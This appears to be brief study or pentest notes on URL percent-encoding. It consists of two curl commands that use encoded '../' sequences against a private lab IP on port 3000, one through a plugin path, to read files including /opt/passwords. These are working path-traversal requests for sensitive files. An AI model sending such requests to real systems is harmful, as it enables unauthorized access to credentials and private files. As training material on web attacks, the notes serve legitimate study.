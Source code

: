 # Encoding Special Characters

URL encoding or Percentage Encoding

curl --path-as-is http://192.168.233.16:3000/public/plugins/alertlist/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2fopt%2Finstall.txt

curl http://192.168.233.16:3000/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/passwords
